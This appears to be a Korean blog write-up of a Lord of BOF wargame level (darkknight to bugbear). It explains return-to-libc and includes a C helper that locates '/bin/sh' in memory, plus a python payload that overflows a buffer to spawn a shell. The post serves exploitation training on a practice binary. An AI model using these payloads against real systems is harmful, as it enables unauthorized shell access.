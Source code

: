```yaml
---
title:  "[LOB] level 13: darkknight >> bugbear "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-25 14:54:33

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 13

**darkknight / new attacker**

bugbear.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147378935-a979880e-d202-423c-adca-dc777f85713f.png)

매개변수 최소 1개 입력  
argv[1][47]이 \xbf여서는 안됨  

이번엔 지금까지 사용했던 스택영역의 주소들을 사용할 수 없다.  
(보통 스택영역은 0xbf로 시작하기때문에)  

코드에 적혀있는 것 처럼 RTL을 사용해야 하는데  
RTL 이란? Return To Libc 로, 메모리에 미리 적재 돼있는 공유 라이브러리를 이용해 바이너리에 원하는 함수가 없어도 공유라이브러리에서 원하는 함수를 사용할 수 있는 공격 기법이다.  
여태껏 system("/bin/sh")를 실행해주는 쉘코드를 삽입해서 사용했다면, RTL은 system("/bin/sh")를 직접 실행시키는 방법이다

페이로드 작성법은:
`python -c 'print "A"*44+system함수 주소+"BBBB"+"/bin/sh 주소"'

먼저 system함수의 주소 구하기
![image](https://user-images.githubusercontent.com/69203345/147379278-5b27d6b6-f6a6-4771-9c0b-6bce603dee24.png)  
시스템 함수의 주소: 0x40058ae0

"/bin/sh"의 주소를 구하기 위해 코드작성
```c
#include <stdio.h>
#include <string.h>

int main(){
        long system = 0x40058ae0;
        while (memcmp((void*)system, "/bin/sh\x00", 8)){
                system++;
        }
        printf("/bin/sh: %x\n", system);

        return 0;

}
```

![image](https://user-images.githubusercontent.com/69203345/147387550-1b85b62b-2385-40c3-b844-bb77c3e89bd8.png)  
실행시 /bin/sh: 400fbff9 라고 나온다  

페이로드: 
> `python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"B"*4+"\xf9\xbf\x0f\x40"'`

![image](https://user-images.githubusercontent.com/69203345/147387670-0b541588-72f1-4a9d-adfd-14210cca5683.png)
